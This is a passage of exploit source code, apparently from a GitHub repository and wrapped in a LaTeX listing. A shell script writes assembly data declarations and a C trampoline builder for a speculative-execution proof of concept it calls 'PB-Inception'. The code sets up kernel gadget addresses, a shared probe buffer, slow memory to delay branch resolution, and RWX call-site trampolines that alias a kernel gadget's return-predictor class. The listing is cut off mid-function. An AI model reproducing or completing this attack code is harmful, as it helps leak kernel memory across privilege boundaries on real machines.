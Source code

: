 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}
section .data
__pbinc_kernel_gadget_addr: dq 0           ; Patched at runtime: VA of kernel gadget (used to derive alias class)
__pbinc_probe_shared:       dq 0           ; Patched at runtime: guest VA of SHARED probe buffer (1 MiB)
__alias_tbl:                times 64 dq 0  ; Table of 64 trampoline entry VAs (callsite-aligned, RA aliasing gadget)
__slow_predicate_ptr:       dq 0           ; Points to mapped slow memory to delay JE resolution
; Slow memory because: Because we want the CPU to speculate into the training block before it knows whether the branch
; is actually taken or not.
EOF

info "Writing trampoline builder (CALLSITE trampolines; RA aliasing) -> trampoline.c"
cat > "${USER_DIR}/trampoline.c" <<EOF
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <errno.h>

// Trampoline because: A small piece of code whose only purpose
// is to jump or call into another piece of code -> often while
// managing control flow

// Total number of desired trampolines for return-predictor pressure
#define TRAMPOLINE_COUNT ${TRAMP_COUNT}

// Max number of slots we'll scan to find alias-matching trampolines
#define MAX_SEARCH_ATTEMPTS 4096

// System page size (used to calculate region allocation)
#define PAGE_SIZE 4096

// Size of memory to mmap for trampoline stubs
#define REGION_SIZE (PAGE_SIZE * MAX_SEARCH_ATTEMPTS)

// x86 opcodes
#define RET_OPCODE 0xC3   // ret
#define CALL_OPCODE 0xE8  // call rel32

// Externals patched/shared across PoC
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Trampoline callsite entry points

// Allow override of alias mask (used to match gadget RA bits)
#ifndef ALIAS_MASK
#define ALIAS_MASK ${ALIAS_MASK}UL // Mask used to match low bits of return address
#endif

////////////////////////////////////////////////////////////////////////////////
// Builds a set of trampolines (CALLSITE stubs) where the return address
// (i.e. the address after the CALL) falls in the same predictor class
// as the kernel gadget. This is the key to PB-Inception predictor pressure.
////////////////////////////////////////////////////////////////////////////////
void *pbinc_create_trampolines(uint64_t gadget_addr) {
    // Allocate RWX memory region for executable trampolines
    uint8_t *region = mmap(NULL, REGION_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC,
                           MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (region == MAP_FAILED) {
        perror("mmap"); exit(1); // Bail if mapping fails
    }


\end{lstlisting}
\end{document}
